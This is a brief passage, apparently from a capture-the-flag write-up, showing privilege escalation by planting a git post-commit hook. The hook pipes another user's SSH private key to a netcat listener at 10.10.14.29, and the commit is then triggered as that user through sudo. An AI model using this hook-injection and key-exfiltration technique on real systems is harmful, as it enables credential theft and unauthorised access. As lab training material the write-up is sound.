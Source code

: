 ```bash
git --work-tree /etc/ add /etc/hostname
```

![](screenshots/git-pre-hook-2.png)


```bash
cd /var/www/image
echo 'cat /home/svc/.ssh/id_rsa|nc 10.10.14.29 4141' >"/var/www/image/.git/hooks/post-commit"
chmod +x /var/www/image/.git/hooks/post-commit
git --work-tree /etc/ add /etc/hostname
sudo -u svc /var/www/image/scripts/git-commit.sh
```

![](screenshots/git-pre-hook-3.png)
